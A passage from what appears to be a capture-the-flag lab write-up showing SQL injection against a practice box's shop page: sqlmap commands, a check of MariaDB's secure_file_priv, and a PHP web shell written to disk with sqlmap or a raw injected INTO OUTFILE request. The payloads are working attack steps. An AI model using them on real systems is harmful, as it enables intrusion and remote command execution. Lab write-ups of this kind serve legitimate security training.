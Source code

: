 Nope. Though this does give us a hint.

```text
[04:11:00] [ERROR] there has been a problem uploading the shared library, it looks like the binary file has not been written on the database underlying file system
do you want to proceed anyway? Beware that the operating system takeover will fail [y/N]
[04:11:02] [INFO] falling back to web backdoor method...
```

Since we are DBA we should be able to upload a PHP file using the db and run it using the lfi we found earlier.

The db appears to be mariadb, google mentions there being a variable called secure_file_priv to which, if set and given FILE permissions, files can be written. Let’s use sqlmap to get a sql shell and check if that variable is set.

```
$ sqlmap -r productGet.req --level 5 --risk 3 --sql-shell
sql-shell> SELECT @@global.secure_file_priv;

 ... snip ...

 SELECT @@global.secure_file_priv: ' '
```

Hmmm, not set. So the DB should be able to write to any directory the mysql user can. Thing is we need to also be able to read the file from PHP. Luckily /var/lib/mysql seems to be world readable by default (tested in docker with the ubuntu version used by the box)

```
drwxr-xr-x 1 mysql mysql  250 Oct  6 21:48 .
```

We can use sqlmap to upload a shell:

```php
//sh.php
<?php system($_GET['cmd']);?>
```

(You may need to play around with productGet.req to get sqlmap to work)

```BASH
$ sqlmap -r productGet.req --level 5 --risk 3 --file-write="sh.php" --file-dest="/var/lib/mysql/s.php"
```

or do so manually from burpsuite (remember to url encode):

```
GET /shop/index.php?page=product&id=
'; select '<?php system($_GET[\'cmd\']);?>' into outfile '/var/lib/mysql/s.php';
--2 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.229/shop/index.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```
